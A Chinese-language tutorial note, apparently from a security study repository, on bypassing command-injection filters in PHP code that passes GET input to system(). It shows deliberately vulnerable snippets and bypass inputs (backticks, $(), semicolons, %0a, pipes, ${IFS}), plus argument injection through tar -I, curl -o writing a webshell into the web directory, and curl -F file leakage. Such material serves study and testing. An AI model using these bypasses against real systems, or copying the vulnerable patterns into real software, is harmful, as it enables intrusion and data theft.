


# RCE 

[TOC]

## ByPass

过滤了双引号，执行命令的时候用双引号包裹

```php
$_GET[str] = str_replace("\", "", $_GET[str]);

system("echo \"$_GET[str]\";");
```

可以在输入中使用反引号包裹要执行的命令，例如`whoami`

 

过滤了双引号和反引号，执行命令时用双引号包裹

```php
$_GET[str] = str_replace(array("\"","`"), "", $_GET[str]);

system("echo \"$_GET[str]\";");
```

可以在输入中使用美元符号加括号包裹要执行的命令，例如$(whoami)

 

过滤了绝大多数特殊符号，执行的时候没有引号包裹

```php
$_GET[str] = str_replace(array("\"","`","$","(",")"), "" ,$_GET[str]);

system("echo $_GET[str];");
```

可以在输入中添加分号闭合echo命令的结束然后直接输入要执行的命令


过虑了绝大多数符号包括分号，执行的时候没有引号包裹

```php
$_GET[str] = str_replace(array("\"", "`", "$", "(", ")", ";"), "", $_GET[str]);
system("echo $_GET[str];");
```

利用URL编码，**%0a是换行符，%0d是回车符号**，可以在输入的要执行命令之前添加%0a起到换行的效果，例如%0awhoami<br>也可以使用**管道操作符**，将前一个命令的输出作为后一个命令的输入,起到闭合echo命令的作用，例如|whoami


过虑了空格

```php
$_GET[str] = str_replace(" ", "", $_GET[str]);
system("echo $_GET[str];");
```

可以使用shell中的**IFS变量**，下面对IFS进行简单的说明

> Shell的环境变量分为两种，**set**和**env**。set变量可以通过export导入env中。set是显示设置shell变量，仅在本shell中有效；env是显示设置用户环境变量，仅在当前会话中有效。当然，可以通过将export语句将环境变量写入/etc/profile文件来达到永久有效的目的。IFS就是一种set变量，当shell处理“命令替换”和“参数替换”时，shell会根据IFS的值，**默认是space，tab，newline**来拆解读入的变量。

可以使用

```shell
echo $IFS | od -b
```

来查看此变量的值。因为默认是空格之类的不可见符号，所以使用二进制来查看。

也就是说，如果没有对IFS进行特殊设置，是可以直接调用当作空格来使用。因此此处就可以使用例如ls${IFS}-al的方式来执行含有空格的命令。

## 参数执行

利用tar命令的-I参数来实现命令执行，首先创建一个可执行文件，命名为pwn.sh并赋予执行权限

```shell
#!/bin/bash
touch pwned
```

接着使用tar命令的**-I**参数执行此文件

```shell
tar cvf 1.tar -I ./pwn.sh test
```

随便压缩一个文件就行，看一下效果，目录中已经多出了一个名为pwned的文件




利用curl的参数来实现命令执行，利用**-o**输出到web目录，写一个webshell。

```shell
curl <包含恶意代码/webshell的网址> -o <输出目录>
```

效果如下




利用curl的**-F**参数可以造成本地文件泄露

